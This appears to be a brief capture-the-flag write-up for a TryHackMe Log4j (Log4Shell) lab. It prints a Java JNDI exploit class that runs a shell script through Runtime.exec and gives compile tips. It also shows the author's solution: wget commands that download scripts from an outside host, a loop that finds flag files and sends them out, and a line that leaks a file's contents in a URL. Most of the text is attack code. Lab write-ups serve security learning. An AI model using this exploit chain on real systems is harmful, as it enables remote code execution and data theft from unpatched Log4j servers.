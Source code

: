# Log for Jodie

>Test for Log4j Exploit

![](https://i.imgur.com/eiIaalI.png)

> Just follow this until you get stuck
> https://tryhackme.com/room/solar

> When you follow tryhackme, the exploit will have errors:

> Use this instead:
> https://github.com/kxcode/JNDI-Exploit-Bypass-Demo/blob/master/HackerServer/src/main/java/Exploit.java

> If you scroll down in the tryhackme exploitation section, you will see this
> javac Exploit.java -source 8 -target 8
> One of the error you might face when using the exploit is the version of openjdk that is use to compile the .java file
> Just use your java-8-openjdk javac to compile
> /usr/lib/jvm/java-8-openjdk/bin/javac Exploit.java

> Bash doesn't work, so I assume there is probably no bash on the system

```
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.*;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        try {
            Runtime.getRuntime().exec("sh test.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return null;
    }
}
```

## My (not so elegant) solution
```wget http://a.b.c.d/flag.sh```

```
#flag.sh

for f in $(find / -name 'flag*'); do
  wget http://a.b.c.d/$f
done
```

```sh flag.sh```

```wget http://a.b.c.d/flag1.sh```

```
#flag1.sh
wget http://a.b.c.d/`cat ./task/flag.txt`
```

```sh flag1.sh```

![](https://i.imgur.com/XFLrZgV.png)

![](https://i.imgur.com/NaoCsFN.png)

> Flag at /task/flag.txt
